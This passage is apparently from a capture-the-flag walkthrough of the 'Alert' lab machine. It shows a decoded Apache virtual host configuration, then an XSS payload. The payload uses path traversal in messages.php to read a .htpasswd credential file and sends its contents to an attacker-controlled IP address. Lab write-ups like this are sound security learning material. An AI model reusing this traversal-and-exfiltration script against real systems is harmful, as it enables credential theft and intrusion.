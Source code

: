 Decode the encoded text using `CyberChef`.

```bash
<VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

Based on the `conf` file, we now know that the `AuthUserFile` is located at `/var/www/statistics.alert.htb/.htpasswd`.

Lets edit our script to get this file.

```bash
<script>
fetch("http://alert.htb/messages.php?file=../../../../var/www/statistics.alert.htb/.htpasswd")
    .then(response => response.text())
    .then(data => {
    fetch("http://10.10.14.9/?shiro=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching the messages:", error));
</script>
```
